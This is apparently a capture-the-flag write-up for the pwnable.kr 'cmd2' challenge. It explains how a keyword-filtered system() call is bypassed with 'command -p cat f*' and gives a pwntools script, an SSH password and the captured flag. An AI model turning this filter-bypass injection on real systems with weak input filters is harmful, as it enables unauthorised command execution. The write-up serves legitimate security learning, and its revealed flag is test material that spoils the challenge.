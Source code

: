 # Pwnable.kr: Toddler's Bottle
## cmd2

This is a follow up challenge to the **cmd1** challenge, with a much stronger filter and a wiping of the environment variables. As seen in the source code below, our previous solution for **cmd1** will not work this time since the '/' character is now identified by the filter, but we can still use the same trick of using 'f*' to direct to the flag file.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

The question now is how can we run the *cat* utility without using any '/' characters, or find an alternative way to view the flag. Well the *system( argv[1] )* call will be the point that we would need to exploit, and since it is a wrapper for other POSIX exec functions we should have a look at how it works by running *man system*. This shows us that the *system(char * command)* call is a wrapper for *execl("/bin/sh", "sh", "-c", command, (char *) 0)*, which tells us that we are using the dash command line interpreter (AKA shell). Lets look into what already comes builtin with the shell that we have access too by reading the *man sh* page. Of particular interest to us is the builtin in *command* command (sounds a bit confusing), which has the -p option for using a PATH variable that "guarantees to find all the standard utilities".

<pre>
command [-p] [-v] [-V] command [arg ...]
       Execute the specified command but ignore shell functions when searching for it.  (This
       is useful when you have a shell function with the same name as a builtin command.)

       <b>-p     search for command using a PATH that guarantees to find all the standard utili‐
              ties.</b>

       -V     Do not execute the command but search for the command and print the resolution
              of the command search.  This is the same as the type builtin.

       -v     Do not execute the command but search for the command and print the absolute
              pathname of utilities, the name for builtins or the expansion of aliases.
</pre>

Therefore, we can use *command -p cat f** to bypass the changing of the PATH environment variable since *cat* is a standard utility.

Once again, we can write a neat petite script to pwn this challenge.

```python
from pwn import *

s = ssh(host='pwnable.kr', port=2222, user='cmd2', password='mommy now I get what PATH environment is for :)')
p = s.process(["./cmd2", "command -p cat f*"])

#Need to receive 2 lines since 'command' echoes the command to stdout
print(p.recvline())
print(p.recvline())
```

<pre>
[+] Connecting to pwnable.kr on port 2222: Done
[*] cmd1@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process './cmd2' on pwnable.kr: pid 108150
command -p cat f*

FuN_w1th_5h3ll_v4riabl3s_haha
</pre>
